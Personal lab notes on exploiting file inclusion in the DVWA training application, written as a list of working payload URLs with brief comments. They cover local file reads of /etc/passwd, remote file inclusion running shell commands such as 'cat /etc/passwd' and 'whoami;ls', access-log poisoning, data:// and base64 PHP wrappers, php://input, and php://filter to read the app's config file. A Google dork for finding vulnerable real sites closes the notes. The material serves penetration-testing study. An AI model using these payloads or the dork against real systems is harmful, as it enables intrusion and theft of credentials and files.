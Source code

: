 

http://192.168.99.116/DVWA/vulnerabilities/fi/?page=file1.php      => file.php   is vlun

http://192.168.99.116/DVWA/vulnerabilities/fi/?page=/etc/passwd     =>  /etc/passwd

Summary  => file htal ka file ko use htar lot

_____________________________________________________________________

RFI   => Remote File Inclusion    => more easy than LFI

http://192.168.99.116/DVWA/vulnerabilities/fi/?page=https://www.google.com/robots.txt  => google robot .txt

http://192.168.99.116/DVWA/vulnerabilities/fi/?page=http://192.168.99.116/rfi/rfi.txt  => with my local host

![[Pasted image 20230107230755.png]]


http://192.168.99.116/DVWA/vulnerabilities/fi/?page=http://192.168.99.116/rfi/rfi.txt&cmd=cat%20/etc/passwd    => exploit RFI with php system command

![[Pasted image 20230107231212.png]]

Here is exploit !

![[Pasted image 20230107231322.png]]


http://192.168.99.116/DVWA/vulnerabilities/fi/?page=http://192.168.99.116/rfi/rfi.txt&cmd=whoami;ls%20-al   => we can use two or three command concat with this    ";"


http://192.168.99.116/DVWA/vulnerabilities/fi/?page=Http://192.168.99.116/rfi/rfi.txt&cmd=whoami       => banned http  and ../ 


http://192.168.99.116/DVWA/vulnerabilities/fi/?page=file:///etc/passwd     => we use file///  potocol to know this vlun  / method are not allow / just allow for file 

http://192.168.99.116/DVWA/vulnerabilities/fi/?page=file:///var/log/apache2/access.log   => we use access.log that's mostly vlun in older version os  

=> we take another browser tab to enter the access log and then replace with melicious code like that!

![[Pasted image 20230108011348.png]]

_____________________________________________________________________

LFI    => Local File Inclusion

http://192.168.99.116/DVWA/vulnerabilities/fi/?page=/etc/passwd

LFI have normally 3 methods

1.  data://wrapper  =>  allow url include on

http://192.168.99.116/DVWA/vulnerabilities/fi/?page=data:,<?php phpinfo(); php?>

2.  data://wrapper with base 64 encode  => allow url include on
http://192.168.99.116/DVWA/vulnerabilities/fi/?page=data:;base64,PD9waHAgcGhwaW5mbygpOyAgPz4K    => i change base64 value to <?php phpinfo(); php?>

=> echo "<?php phpinfo();  ?>"  | base64       => change to base 64 encode   / decode is -d

3.  php:// method
  http://192.168.99.116/DVWA/vulnerabilities/fi/?page=php://input
![[Pasted image 20230108014132.png]]

and then we change in burp suite

![[Pasted image 20230108014213.png]]

Done!

4. php://filter    => just read for information
http://192.168.99.116/DVWA/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=index.php   => google it up

http://192.168.99.116/DVWA/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=/var/www/html/DVWA/config/config.inc.php    => use your brain


___________________________________________________________________________

Google Dock

inurl:"index.php?page=index.php"
